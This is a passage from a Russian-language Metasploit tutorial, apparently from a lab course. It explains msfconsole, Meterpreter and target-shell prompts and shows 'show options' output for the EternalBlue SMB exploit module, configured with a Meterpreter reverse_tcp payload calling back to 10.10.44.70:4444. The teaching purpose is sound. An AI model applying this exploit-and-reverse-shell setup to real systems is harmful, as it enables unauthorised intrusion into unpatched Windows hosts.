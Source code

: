 Контекстная подсказка: После того, как вы решили использовать модуль и использовали команду set для его выбора, 
msfconsole покажет контекст. Здесь вы можете использовать контекстно-зависимые команды (например, set RHOSTS 10.10.xx). 
Контекстная командная строка
`msf6 exploit(windows/smb/ms17_010_eternalblue) >`

Подсказка Meterpreter : Meterpreter — важная полезная нагрузка, которую мы подробно рассмотрим далее в этом модуле. 
Это означает, что агент Meterpreter был загружен в целевую систему и подключен к вам. Здесь вы можете использовать 
специальные команды Meterpreter.  
А
Meterpreter
командная строка
`meterpreter >`
Оболочка на целевой системе: После завершения эксплойта у вас может быть доступ к командной оболочке на целевой 
системе. Это обычная командная строка, и все команды, введенные здесь, выполняются на целевой системе. 
А
Meterpreter
командная строка
`C:\Windows\system32>`
Как упоминалось ранее, `show options` команда выведет список всех доступных параметров.

Команда «Показать параметры»
```commandline
msf6 exploit(windows/smb/ms17_010_eternalblue) > show options

Module options (exploit/windows/smb/ms17_010_eternalblue):

   Name           Current Setting  Required  Description
   ----           ---------------  --------  -----------
   RHOSTS                          yes       The target host(s), range CIDR identifier, or hosts file with syntax 'file:'
   RPORT          445              yes       The target port (TCP)
   SMBDomain      .                no        (Optional) The Windows domain to use for authentication
   SMBPass                         no        (Optional) The password for the specified username
   SMBUser                         no        (Optional) The username to authenticate as
   VERIFY_ARCH    true             yes       Check if remote architecture matches exploit Target.
   VERIFY_TARGET  true             yes       Check if remote OS matches exploit Target.


Payload options (windows/x64/meterpreter/reverse_tcp):

   Name      Current Setting  Required  Description
   ----      ---------------  --------  -----------
   EXITFUNC  thread           yes       Exit technique (Accepted: '', seh, thread, process, none)
   LHOST     10.10.44.70      yes       The listen address (an interface may be specified)
   LPORT     4444             yes       The listen port


Exploit target:

   Id  Name
   --  ----
   0   Windows 7 and Server 2008 R2 (x64) All Service Packs


msf6 exploit(windows/smb/ms17_010_eternalblue) >
```

